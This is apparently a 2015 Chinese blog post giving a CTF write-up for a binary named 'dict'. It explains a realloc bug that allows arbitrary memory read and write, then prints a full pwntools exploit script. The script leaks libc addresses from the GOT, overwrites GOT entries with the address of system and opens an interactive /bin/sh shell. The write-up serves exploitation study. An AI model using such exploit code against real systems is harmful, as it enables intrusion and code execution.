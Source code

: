 ```yaml
---
layout: post
title: "dict"
date: 2015-10-25 20:09:29 +0800
comments: true
categories: 
---
```

###0x00 漏洞

	 *(&ptr + 2 * index) = realloc(*(&ptr + 2 * index), 32 * (old_count + count));
	    i = 0;
	    while ( i < count )
	    {
	      printf("Input new word %d: ", i);
	      v1 = (int)((char *)*(&ptr + 2 * index) + 0x20 * (old_count + i));

realloc后没判断，可以构造count为一个地址造成任意地址读写  

###0x01 how
创造一个dict0，使num恰好可以任意地址写  
地址选择dict1  
dict之后写入got.plt的地址，就可以泄漏地址
之后的dict数量改为指向got.plt的地址就可以改写got.plt

示意如下

	num0
	ptr0
	num1    ----------  2
	ptr1    ------------    gotplt
	num2    ----------  2
	ptr     --------------  gotplt
	num3--------------   可以更改got.plt的num

###0x02 gdb

b *0x8048990  
b *0x8048940  
add大小 252710928

pwn send字节太大会送不过去


###0x03 exp

	from pwn import *

	p = process('./dict')
	#p = remote('192.168.56.103', 6666)


	dict2 = 0x804A0CC
	def create(num):
	#    print p.recvuntil("$")
		p.sendline("1")
	#	print p.recvuntil(":")
		p.sendline(str(num))
		for i in range(128):
			print 'loop%d'%i
			p.send('1\n'*(num/128))
			p.recvuntil('%d:'%(num/128*(i+1)))
		p.send('1\n'*(num % 128))
		print 'done'


	def screate(num, cont):
		#print p.recvuntil("$")
		p.sendline("1")
		#print p.recvuntil(":")
		p.sendline(str(num))
		#print p.recvuntil(":")
		p.sendline(cont)
		p.sendline('\n')

	def add(index, num, cont):
		#print p.recvuntil("$")
		p.sendline("2")
		#print p.recvuntil(":")
		p.sendline(str(index))
		#print p.recvuntil("?")
		p.sendline(str(num))
		#print p.recvuntil(":")
		p.sendline(payload)

	#
	create(4203782)
	screate(2, '/bin/sh')
	screate(2, '/bin/sh')
	screate(2, '/bin/sh')
	screate(2, '/bin/sh')
	screate(2, '/bin/sh')
	p.sendline('')
	got = 0x0804A00C
	payload  = ''
	payload += p32(4203782)		#0
	payload += p32(0)
	payload += p32(2)		#1
	payload += p32(got+0x14)
	payload += p32(2)		#2
	payload += p32(got+0x24)
	payload += p32((got+0x30)/32)[:3] 	#3	#hack got realloc
	add(0, 0x0f101010, payload)

	#leak
	p.sendline('\n')
	p.sendline('3')
	p.sendline('1')
	data = p.recvuntil('Dict 1:')
	data = p.recvuntil('1: ')
	data = p.recvuntil('2: ')
	puts_r = u32(data[0:4])
	gmon_r = u32(data[4:8])
	exit_r = u32(data[8:12])
	libc_r = u32(data[12:16])
	log.info('puts_r: '+hex(puts_r))
	log.info('gmon_r: '+hex(gmon_r))
	log.info('exit_r: '+hex(exit_r))
	log.info('libc_r: '+hex(libc_r))

	#leak
	p.sendline('\n')
	p.sendline('3')
	p.sendline('2')
	data = p.recvuntil('Dict 2:')
	data = p.recvuntil('1: ')
	data = p.recvuntil('2: ')
	setvbuf_r = u32(data[0:4])
	memset_r = u32(data[4:8])
	log.info('setvbuf_r: '+hex(setvbuf_r))
	log.info('memset_r : '+hex(memset_r ))


	#hack got 
	libc = ELF('/usr/lib/libc.so.6')
	system_l = libc.symbols['system']
	puts_l = libc.symbols['puts']
	system_r = system_l - puts_l + puts_r
	log.info('system: '+hex(system_r))

	payload  = ''
	payload += p32(puts_r)
	payload += p32(gmon_r)
	payload += p32(exit_r)
	payload += p32(libc_r)
	payload += p32(setvbuf_r)
	payload += p32(memset_r)
	payload += p32(system_r)
	print p.recvuntil("$")
	p.sendline("2")
	print p.recvuntil(":")
	p.sendline('3')
	print p.recvuntil("?")
	p.sendline(str(0x0f101010))
	print p.recvuntil(":")
	p.sendline(payload)


	p.interactive()
